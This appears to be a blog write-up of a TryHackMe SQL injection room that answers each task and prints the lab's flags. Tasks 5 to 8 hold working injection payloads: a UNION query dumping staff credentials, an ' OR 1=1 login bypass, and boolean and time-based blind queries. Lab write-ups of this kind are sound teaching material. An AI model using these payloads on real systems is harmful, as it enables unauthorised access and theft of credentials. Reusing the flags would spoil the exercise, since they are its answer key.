 ```yaml
---
title: SQL Injection  
author: CYB3RM3
name: CYB3RM3 | SQL Injection  
date: 2021-10-17 13:05:07 +0100
categories: [TryHackMe, Web]
tags: [Web, SQLi]
---
```


Learn how to detect and exploit SQL Injection vulnerabilities

THM Room [https://tryhackme.com/room/sqlinjectionlm](https://tryhackme.com/room/sqlinjectionlm)


## TASK 1 : Brief
### What does SQL stand for?
Answer : Structured Query Language

## TASK 2 : What is a Database?  
### What is the acronym for the software that controls a database?
Answer : DBMS

### What is the name of the grid-like structure which holds the data?
Answer : table

## TASK 3 : What is SQL? 
### What SQL statement is used to retrieve data?
Answer : SELECT

### What SQL clause can be used to retrieve data from multiple tables?
Answer : UNION

### What SQL statement is used to add data?
Answer : INSERT

## TASK 4 : What is SQL Injection?  
### What character signifies the end of an SQL query?
Answer : semicolon ";"

## TASK 5 : In-Band SQLi 
### What is the flag after completing level 1 ?
Read the text and follow the instructions.

The final query you'll use should be :

```sql
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
{: .nolineno }

Answer : THM{SQL_INJECTION_3840}

## TASK 6 : Blind SQLi - Authentication Bypass
### What is the flag after completing level two? (and moving to level 3)

The payload to use in the password field is :

```sql
' OR 1=1;--
```
{: .nolineno }

Answer : THM{SQL_INJECTION_9581}

## TASK 7 : Blind SQLi - Boolean Based 
### What is the flag after completing level three?

I follow the steps of enumeration discribe and the last injection is

```sql
https://website.thm/checkuser?username=admin123' UNION SELECT 1,2,3 from users where username like 'admin%' and password like '3845%';--
```
{: .nolineno }

Answer : THM{SQL_INJECTION_1093}

## TASK 8 : Blind SQLi - Time Based 
### What is the final flag after completing level four?

For this one, you have to repeat the process learnt in the TASK 7. I found the number of columns with :

```sql
admin123' UNION SELECT SLEEP(5),2;--
```
{: .nolineno }

Then, i got the database name : sqli_four. when you repeat all the steps you'll find the table name and the comumns.

The final query should be :

```sql
https://website.thm/checkuser?username=admin123' UNION SELECT sleep(2),2 from users where username='admin' and password like '4961%;--
```
{: .nolineno }

Answer : THM{SQL_INJECTION_MASTER}

## TASK 9 : Out-of-Band SQLi 
### Name a protocol beginning with D that can be used to exfiltrate data from a database.
Answer : DNS

## TASK 10 : Remediation
### Name a method of protecting yourself from an SQL Injection exploit.
Answer : Prepared Statements
